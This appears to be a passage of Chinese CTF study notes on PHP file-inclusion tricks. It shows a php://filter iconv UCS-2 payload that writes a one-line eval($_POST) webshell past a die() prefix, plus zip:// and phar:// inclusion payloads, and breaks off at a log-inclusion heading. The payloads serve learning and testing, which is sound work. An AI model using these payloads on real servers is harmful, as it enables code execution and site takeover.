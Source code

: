 考察点：绕过死亡die
题目中过滤了很多协议和编码方式，但是除了我们常用的base64和rot13还是有很多方法可以绕过die的
更多编码方式
这是取一个 UCS-2LE UCS-2BE

```php
payload:
file=php://filter/write=convert.iconv.UCS-2LE.UCS-2BE/resource=a.php
post:contents=?<hp pvela$(P_SO[T]1;)>?
```

这种是将字符两位两位进行交换
大家可以自行测试如下代码

```php
echo iconv("UCS-2LE","UCS-2BE",'<?php die();?>?<hp pvela$(P_SO[T]1;)>?');

输出如下，使得die失效，并且我们的一句话木马可以使用
?<hp pid(e;)>?<?php eval($_POST[1]);?>
```

死亡绕过的思路其实就是单纯的编码绕过

## zip协议

**zip://** 可以访问压缩包里面的文件。当它与包含函数结合时，zip://流会被当作php文件执行。从而实现任意代码执行。

- zip://中只能传入绝对路径。
- 要用#分隔压缩包和压缩包里的内容，并且#要用url编码%23（即下述POC中#要用%23替换）
- 只需要是zip的压缩包即可，后缀名可以任意更改。
- 相同的类型的还有zlib://和bzip2://

payload：

```python
?file=zip://D:\zip.jpg%23phpinfo.txt
```

## phar协议

相对路径

```python
phar://test.zip/phpinfo.txt
```

可以直接解析zip压缩包文件下的文件

绝对路径

```python
phar://D:/phpstudy/www/test.zip/phpinfo.txt
```

# 日志包含

日志位置
